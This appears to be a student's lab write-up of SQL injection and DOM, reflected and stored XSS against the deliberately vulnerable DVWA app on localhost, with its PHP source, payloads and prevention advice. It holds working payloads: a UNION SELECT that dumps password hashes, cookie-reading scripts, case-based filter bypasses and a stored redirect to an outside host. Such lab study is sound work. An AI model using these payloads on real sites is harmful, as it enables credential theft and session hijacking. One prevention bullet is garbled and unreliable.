 # DVWA - SQL Injection & XSS (Cross Site Scripting)

# SQL Injection
<details>
<summary>Introduction of SQL Injection?</summary>

### What is SQL Injection?
SQL Injection is a type of web security vulnerability that allows an attacker to manipulate an application's database query by inserting malicious SQL code into input fields, leading to unauthorized access or data manipulation.

### Basic Principles of SQL Injection

SQL Injection typically occurs when an application directly embeds user input into SQL queries without sufficient validation or sanitization. When an application incorporates user input as part of an SQL statement, an attacker can craft specific inputs to alter the final SQL statement to achieve their goals, such as bypassing authentication, reading, or modifying database data.

### Example

Suppose there is a simple login form where a user inputs a username and password, and the system executes the following SQL query to verify the user's identity:

```sql
SELECT * FROM users WHERE username = 'user input username' AND password = 'user input password';
```

If the user inputs the following:

- Username: `admin`
- Password: `' OR '1'='1`

The generated SQL statement would become:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';

```

Since `'1'='1'` is always true, this query will return information for all users in the database, allowing the attacker to bypass authentication and log in to the system.
</details>


---

<img width="943" alt="Screenshot 2024-05-14 at 3 42 56 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/9e23f1c0-361e-44a1-861c-f1b0baa2c69d">


<details>
<summary>Low-level security</summary>
    
### DVWA SQL Injection - Low level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_REQUEST[ 'Submit' ] ) ) { 
        // Get input
        $id = $_REQUEST[ 'id' ];
    
        // Check database
        $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    
        // Get results
        while( $row = mysqli_fetch_assoc( $result ) ) {
            // Get values
            $first = $row["first_name"];
            $last  = $row["last_name"];
    
            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 
        }
        mysqli_close($GLOBALS["___mysqli_ston"]);
    }
    ?>
    ```
    
2. **Source code Analysis**:
    - The server-side `low.php`  script doesn’t perform any check or filtering on user’s id input and directly displays the execution result of the SQL query to the client-side.
    - Try input `' OR '1'='1`  it returns all the result of user’s first name and surname. With that experiment It doesn’t return errors, So we have chance to get database information through SQL injection.
        
        <img width="941" alt="Screenshot 2024-05-14 at 3 55 35 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/5e91e4cc-1c05-47c7-93e4-67fc4f64139b">

        
      
        
3. **Vulnerabilities Exploitation**:
    - **The vulnerable script:** `"SELECT first_name, last_name FROM users WHERE user_id = '$id';"`
    - **Get the usernames and passwords from database :**  `’ UNION SELECT user, password FROM users#`
        <img width="931" alt="Untitled" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/dec7790e-0f67-4c5c-9156-00aea2b19431">
        
    - **Crack the hash:** Even though passwords are hashed but still try to crack it with library attack.
        <img width="850" alt="Screenshot_2024-05-14_at_7 47 39_in_the_evening" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/58f34eb1-ae2b-48c5-bb52-4e0d4c824e8d">      

</details>


---

<details>
<summary>Medium-level security</summary>
    
### DVWA SQL Injection - Medium level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_POST[ 'Submit' ] ) ) {
    	// Get input
    	$id = $_POST[ 'id' ];
    
    	$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
    
    	$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    	$result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
    
    	// Get results
    	while( $row = mysqli_fetch_assoc( $result ) ) {
    		// Display values
    		$first = $row["first_name"];
    		$last  = $row["last_name"];
    
    		// Feedback for end user
    		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    	}
    
    }
    
    // This is used later on in the index.php page
    // Setting it here so we can close the database connection in here like in the rest of the source scripts
    $query  = "SELECT COUNT(*) FROM users;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    $number_of_rows = mysqli_fetch_row( $result )[0];
    
    mysqli_close($GLOBALS["___mysqli_ston"]);
    ?>
    ```
    
2. **Source code Analysis**:
    - `medium.php`  script try to avoid user input by giving dropdown selection instead.
    - It is still able to change the script in `inspect element`
        
        
        <img width="754" alt="Screenshot 2024-05-14 at 8 15 46 in the evening" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/07afd223-6374-4ea8-9953-cdb9a0448222">

3. **Vulnerabilities Exploitation**:
    - **Get the usernames and passwords from database :**  edit in inspector mode by inserting script as in the picture below:
        
        <img width="843" alt="Untitled (1)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/ab7335b5-98ee-415f-bf4a-b718ff7d9b98">

        
    - **Submit:**
        
        <img width="748" alt="Untitled (2)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/bf31b415-93fa-42aa-a2dc-42d4504a0d3c">

</details>        

---

<details>
<summary>High-level security</summary>
    
### DVWA SQL Injection - High level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_SESSION [ 'id' ] ) ) {
    	// Get input
    	$id = $_SESSION[ 'id' ];
    
    	// Check database
    	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    	$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
    
    	// Get results
    	while( $row = mysqli_fetch_assoc( $result ) ) {
    		// Get values
    		$first = $row["first_name"];
    		$last  = $row["last_name"];
    
    		// Feedback for end user
    		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    	}
    
    	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }
    
    ?>
    ```
    
2. **Source code Analysis**:
    - `High.php`  script want to avoid direct input so it call new popup window for input, from source code can be seen that it is very similar to low-level but it is different here with `LIMIT 1;` in the query.
    - However, still can do `’ UNION SELECT user, password FROM users#` use the hashtag to ignore the condition.
        
        <img width="751" alt="Screenshot 2024-05-15 at 12 21 10 at night" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/39d3376e-af17-44ad-9b03-58af3b3e9d7f">

        
3. **Vulnerabilities Exploitation**:
    - **Submit:**
        
        <img width="1440" alt="Untitled (3)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/19cfcb24-7e6a-4fee-8c88-08c20b49dcd1">

</details>        

---

<details>
<summary> To prevent SQL injection</summary>
    
## Prevent SQL injection

As can be seen in the result of injection in all the three security level, without a proper implement and security prevention, user's datas can be secured. Even though user's passwords are hashed, but if hacker want, the passwords still can be cracked. Therefore what developer can do is to implement more securily layer to the system. To prevent SQL injection:

1. Use prepared statement parameterized query.
2. Input validation and sanatization to filter out special characters and allow only specific character and limit input length (not on browser-side because user can go to edit the HTML code and attack it.)
3. Database permission limitation to minimize the process of injection.

    
</details>


---

<details>
<summary>As proof here</summary>

- As can be seen, the background is my desktop wallpaper.
- In about, it displays my name.
- The top bar can see the date 14, May, 8:27PM and compare to the name of screenshot (the same date, similar time because i just did it at the moment.
- The navigation bar on the middle-right are from my screen.
- Look at another window behind setting and finder, that is kali VM is running and I was testng on it.
    
    <img width="1440" alt="Untitled 5" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/ada31e8e-e0a5-4457-a164-23e01563d675">

</details>

---


# DOM-XSS (Cross site scripting)

<img width="882" alt="Untitled (4)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/205e04f0-1cd6-4bf9-aafc-83c673981a5a">

<details>
    
<summary>low-level security</summary>

### DVWA XSS - Low level 

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-d/
    
    // after selecting language
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    ```
    
3. **Updated URL:**
    
    ```jsx
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English <script> alert(”XSS_Test”) </script>
    ```
    
4. **Vulnerabilities Found**:
    
    <img width="1184" alt="Screenshot 2024-05-17 at 12 47 02 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/93b9ddac-f9f8-4dd4-81fd-7922afece9d6">

    
5. **Vulnerabilities Exploitation**:
    - **The vulnerable script:** `<script> alert(document.cookie) </script>`
      
        <img width="1294" alt="Screenshot 2024-05-17 at 12 49 37 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/1f7e5ed5-160c-45ac-aa03-bf20c7d3cbc9">

          
</details>

---

<details>

<summary> medium-level security </summary>

### DVWA XSS - Medium level

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-d/
    
    // after selecting language
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    
    // failed because it has filtering script.
    ```
    
3. **Try with:**
    
    ```jsx
    </select><img src/onerror=alert(”XSS_Test”)>
    ```
    
4. **Vulnerabilities Found**:
   
    <img width="1344" alt="Untitled (5)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/3cf4b170-a7e0-466e-b613-a3631cefee7a">

    
 </details>
 
---


# Reflected based XSS

<img width="774" alt="Screenshot 2024-05-19 at 5 44 15 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/cbb355ce-bc2a-4a1f-ab36-58bbb4899cf5">

<details>

<summary>low-level</summary>

### XSS - Low level

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-r/
    
    // after input name
    127.0.0.1/dvwa/vulunerabilities/xss-r/?name=munin#
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    
    <script> alert(document.cookie) </script>
    ```
    
3. **Vulnerabilities Found**:
    
    <img width="1244" alt="Untitled (6)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/984f0103-54fd-4233-bfe4-0c991a2186db">

    <img width="1211" alt="Untitled 9" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/66ce2463-7715-43db-a916-acafe3759629">

    
</details>

---

<details>

<summary>medium-level</summary>

### XSS - Medium level

1. **Input javascript into URL**:
    
    Because from the source code in medium level, it is filtering <script> however it is string and check only small capital letter, Hence we can try capital letter to escape the filtering.
    
    ```jsx
    <SCRIPT> alert("Hello") </SCRIPT>
    
    <SCRIPT> alert(document.cookie) </SCRIPT>
    ```
    
2. **Vulnerabilities Found**:
   
    <img width="1230" alt="Screenshot_2024-05-17_at_2 57 07_in_the_afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/9ebf671e-f1ca-48d4-a090-2835f7e9da23">

    <img width="1268" alt="Screenshot_2024-05-17_at_2 57 57_in_the_afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/37976eab-6649-4a5d-b64c-2b5a4a37a84a">
    
</details>

---

# Stored based XSS

<details>

<summary>low-level</summary>

### DVWA XSS - Low level

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(1) </script>
    ```
    
3. **Vulnerabilities Found**:
As can be seen, the page now stored the script which alert(1). Whenever reload the page it will keep popup message “1” as inserted script. This is critical risky since everyone who log into the webpage can be victim.
    
    <img width="1377" alt="Untitled (4)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/8ffe5a4d-3dd5-4ada-8a77-57fe32cf349d">

    
4. **Vulnerabilities Exploitation**:
Now I can redirect everyone to my webpage to access more attacks.
    - I edit html source code `maxlength="50"` to `maxlength=”500”`
        
        <img width="614" alt="Screenshot 2024-05-18 at 5 15 35 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/f53d7328-577a-4f61-bfee-e3a242a6fd0b">

        
    - **The Affected URL**: https://attack.com.
        
        <img width="1345" alt="Screenshot 2024-05-18 at 5 19 15 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/986db103-ba44-45d9-9121-1ae5041f1019">

        
    - **Result:** Now victims are redirected to this new webpage. (attack.com is just a random webpage online).
        
        <img width="1334" alt="Screenshot 2024-05-18 at 5 21 13 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/e22f5d9f-852d-4602-8f61-162bb6005cd9">
        
</details>

---

<details>

<summary>medium-level</summary>

### DVWA XSS - Medium level

1. **Edit `maxlength` and Testing with inserting javascript through input**:
    
    <img width="762" alt="Screenshot 2024-05-19 at 5 19 43 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/675ad3b0-25b6-416d-b38d-a5be621e3a99">

    
    ```jsx
    /*Name:*/ <script> alert(1) </script>
    /*Message:*/<script> alert(1) </script>
    ```
    
    - It filtering out <script>
        
       <img width="550" alt="Screenshot 2024-05-19 at 5 20 42 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/8f3719d3-934e-4205-b076-8d69e8a96750">

        
    - Testing with capital letter:
        
        ```jsx
        /*Name:*/ <SCRIPT> alert(1) </SCRIPT>
        /*Message:*/<SCRIPT> alert(1) </SCRIPT>
        ```
        
2. **Vulnerabilities Found**:
    
    <img width="1213" alt="Screenshot 2024-05-19 at 5 23 26 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/3f6ad574-09d4-4541-af11-009121148e3d">

    
3. **Vulnerabilities Exploitation**:
    - **The vulnerable script:** `<script> alert(document.cookie) </script>` to get cookie or `<SCRIPT> window.location.href=”http://xxx.com/XSS_TEST” </SCRIPT>` to redirect user to the webpage.

</details>

---

# Prevent XSS

## 1. Input Validation and Filtering

- **Validate Inputs**:
  - Implement strict validation rules to ensure inputs with expected formats. 
  - Reject inputs containing suspicious or dangerous content.

- **Sanitize Inputs**:
  - Use libraries to sanitize inputs by removing or escaping potentially harmful characters.
  - For example, in coding can use certain library to escape HTML javascript special characters.

 
## 2. Avoid Unsafe Practice

- Avoid inner html and inner javascript.
- Ignore security priciple in developing product.
- Avoid allowing user directly input script. 

## 3. Output Encoding

- Encode content before inserting into html, css, javascript or URL.






